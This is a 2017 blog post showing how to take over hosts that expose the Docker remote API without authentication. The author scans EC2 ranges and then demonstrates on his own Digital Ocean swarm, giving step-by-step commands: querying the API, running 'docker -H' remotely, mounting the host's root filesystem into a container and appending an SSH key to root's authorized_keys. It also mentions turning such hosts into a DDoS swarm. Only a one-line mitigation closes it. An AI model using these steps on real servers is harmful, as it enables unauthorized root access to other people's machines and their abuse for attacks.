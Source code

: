 +++
title = "Free compute with unsecured Docker APIs."
date = 2017-10-31
+++

The other day I was casually browsing the internet and was reading about how thousands of MongoDB databases were exposed
to the internet. Unauthenticated for the world to use. Bandits encrypted databases and held them for randsom. A randsom
payable in your favorite crypto currency. This all happened a few months ago, and surely we've all learnt not to expose
our services for the entire world to use? Right? ... right?

Well, if you'd assume that people never learn you're right on the money, my friend. So in todays episode of "Wow I can't
believe people are still doing that" I present to you: "Exploiting the Docker Remote API, or how to root thousands of
machines"

Because scanning the entire internet for open ports is bad, I decided to be curtious and port scan only the IP blocks
that Amazon exposes for their EC2 instances. Mind you, this is still over 27 million IP addresses but it would be a good
enough sample size for me.

Using masscan, and a low `--rate`, I scanned all 27 million IP addresses for the Docker remote API ports and found 3,000
servers that were actively listening on this port. A little filtering and probing later and I found a little over a 1000
servers that have have an unsecured Docker API.

Because I'm a strong believer in ethics (oh?), I decided not to probe any deeper but instead demonstrate what a
potential attack could look like, and how I could've rooted a thousand servers with ease to launch a _sick_ denial of
service attack.

## Step 1. Finding a vulnerable machine

For demonstration purposes, I've spun up 3 small instances on Digital Ocean running a Docker Swarm.

```
root@swarm-1:~# docker node ls                                      
ID                            HOSTNAME            STATUS              AVAILABILITY        MANAGER STATUS             
ni2087pprn601724too0ys0b3 *   swarm-1             Ready               Active              Leader                     
0qqozi3jv21w9nr2oax97opvi     swarm-2             Ready               Active                                        
umxd955a9cqxeag3v1howj287     swarm-3             Ready               Active
```

Some quick Googling on how to enable the Docker remote API, will send
you [here](https://www.ivankrizsan.se/2016/05/18/enabling-docker-remote-api-on-ubuntu-16-04/), and will conveniently
show you how to make the remote API listen on all your network addresses. The post was shy of asking users to add a rule
to their iptables, but because Digital Ocean is a sweetheart and doesn't provide a running firewall by default, and
because their default ubuntu image comes with the firewall disabled out of the box there is nothing to worry about.

A quick restart of my Docker daemon and:

```
GET http://128.199.130.138:4243/
{
"message": "page not found"
}
```

Will show that we're in!

```
GET http://128.199.130.138:4243/nodes
[
{
    "ID": "0qqozi3jv21w9nr2oax97opvi",
},
{
    "ID": "ni2087pprn601724too0ys0b3",
},
{
    "ID": "umxd955a9cqxeag3v1howj287"
}
]
```

Sweet, we have access.

## Step 2. Connecting to the CLI

When you look through the [Engine API](https://docs.docker.com/engine/api/v1.24/) you'll see that you can wreack enough
havoc, but for fun let's use the docker CLI!

```
[brian@localhost ~]$ docker -H 128.199.130.138:4243 node ls
ID                           HOSTNAME  STATUS  AVAILABILITY  MANAGER STATUS
0qqozi3jv21w9nr2oax97opvi    swarm-2   Ready   Active        
ni2087pprn601724too0ys0b3 *  swarm-1   Ready   Active        Leader
umxd955a9cqxeag3v1howj287    swarm-3   Ready   Active       
```

Now we're getting somewhere. Full access ahoy.

If you have a little bit of imagination you can realise that we can easily launch a bunch of containers to perform a
distributed denial of service attack. We could easily find all docker machines, make them leave their swarm, then make
them join our malicious swarm to really ramp things up.

However for this excercise, let's not

## Step 3. Rooting the host

With Docker you can run images in interactive terminal mode, and mount the hosts volume to the container. So why not
mount the root volume:

```
[brian@localhost ~]$ docker -H 128.199.130.138:4243 run -v /:/host -it ubuntu
Unable to find image 'ubuntu:latest' locally
latest: Pulling from library/ubuntu
...
Status: Downloaded newer image for ubuntu:latest
root@4d2d6002beff:/# 
```

To confirm we've mounted the hosts root, and not our local drive:

```
root@58e0c2532e1e:/host# cat /host/etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
```

Making our way to the `~/.ssh` folder to add our own public key:

```
root@58e0c2532e1e:/host/root/.ssh# echo "ssh-rsa publickey" >> authorized_keys
```

Now from our local machine:

```
[brian@localhost ~]$ ssh -i ~/.ssh/docker-funtime root@128.199.130.138
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-93-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  Get cloud support with Ubuntu Advantage Cloud Guest:
    http://www.ubuntu.com/business/services/cloud

47 packages can be updated.
24 updates are security updates.


Last login: Tue Oct 10 09:47:55 2017 from 118.238.203.186
root@swarm-1:~# docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
58e0c2532e1e        ubuntu              "/bin/bash"         8 minutes ago       Up 8 minutes                            naughty_jennings
```

Taadaa -- you have succesfully rooted an unprotoced docker swarm host.

# How to prevent this?

Simple: do not, under any circumstance, expose your docker APIs to the internet.